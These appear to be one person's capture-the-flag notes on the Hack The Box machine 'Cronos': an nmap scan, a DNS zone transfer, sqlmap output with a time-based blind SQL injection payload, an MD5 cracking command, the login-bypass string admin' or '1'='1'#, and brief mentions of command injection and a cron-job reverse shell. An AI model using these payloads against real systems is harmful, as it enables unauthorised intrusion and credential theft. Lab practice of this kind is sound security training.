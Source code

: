 # Enumerate
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 08:00 EDT
Nmap scan report for 10.10.10.13
Host is up (0.026s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds
```

* Exploits for those:
22 - probably not, but started hydra anyway with www-data user
53 - maybe privesc
	[X] the buffer overflow c file (19111/2) didn't seem to work. Definitely wrong kernel version. 
80 - doesn't look like it

* Web pages
web page is the default ubuntu page
dirbuster 

* Scan more
every port found nothing new

* DNS Recon
dnsrecon tool doesn't seem to get a response from server, reset? 
I can use nslookup to that ns and get responses
Seems like the dnsrecon should be getting responses, and I can't reset the server because it says it's under maintenance. That's probably the right way though. Try later. 
Host command worked for zone transfer.
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ host -l 10.10.10.13 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 
13.10.10.10.in-addr.arpa domain name pointer ns1.cronos.htb.
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ host -l cronos.htb 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 
cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```


# Access
If I set my dns to use 10.10.10.13 I can then go to admin.cronos.htb and get a different web page. No idea if this is what the goal is but given that it's an http page, probably.   
Intercept with burp and run sqlmap    
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ sqlmap -r burp_intercept.txt --dbms=mysql --dump
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 7121 FROM (SELECT(SLEEP(5)))aNcV) AND 'bpvH'='bpvH&password=a
---
```
Not user how the time based blind works but doesn't look like something I can do without the tool?   
That took forever but quickly showed that there's admin db with users table with username and password columns.   
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ sqlmap -r burp_intercept.txt --dbms=mysql -D admin -T users -C username,password
```
For some reason this didn't give any results. Back to --dump I guess. 
Eventually dumps PW
```
+------+----------+----------------------------------+
| id   | username | password                         |
+------+----------+----------------------------------+
| 1    | admin    | $ADMINHASH                       |
+------+----------+----------------------------------+
```
Crack with John
```
/sbin/john -w /usr/share/wordlists/rockyou.txt ../hashes.txt --format=Raw-MD5
```

Got a hash that didn't work on the admin page or on ssh...    
	tried all combos of root/admin/www-data with that reverse hash and the hash itself   
lol wtf I looked up the md5 reverse and it totally wasn't right what John told me. John.pot file shows that was a different hash, no idea what happened.    
No idea what to do with this now.    
dirb on admin page     
* empty config.php      
* nothing else useful    
GDI if I go to www.cronos.htb, there's a totally different page to view.  
dirb on www page  
* /js/ page is index with app.js  
   
That web page is running laravel, any exploits?  
* none that worked. Tried the msf one and the python ones.   

Well I'm confused. Time to look at a writeup.  
WOW, apparently I can just sqli directly through that admin login page.  
* admin' or '1'='1'# in both fields
* found the payloadallthethingsrepo. Ading to my tools folder. 

Have the net tool page.  
Vulnerable to command injection. Get a shell.  
Read user Noulis txt file.  

# Escalate
linpeas  
* db password line?  define('DB_PASSWORD', '<>');
* also has lines about localhost 3306 homestead database  
```
/var/www/laravel/.env:APP_NAME=Laravel                                                                                                                                                                           
/var/www/laravel/.env:DB_CONNECTION=mysql
/var/www/laravel/.env:DB_DATABASE=homestead
/var/www/laravel/.env:DB_HOST=127.0.0.1
/var/www/laravel/.env:DB_PORT=3306
/var/www/laravel/.env:DB_USERNAME=homestead
```  
Can't use that for anything I guess. Wouldn't let me connect locally.  
See that cat /etc/crontab shows an application being run.  
Add a reverse shell to it and replace that file and get shell.  


# Tags
* sqlmap
* dns
* zone transfer
* sql injection, sqli


# Lessons
Try some sqli you moron.  
Even if I solve something, it's probably worth reading the writeups to see if other peoples TTPs that I might want to be aware of.  
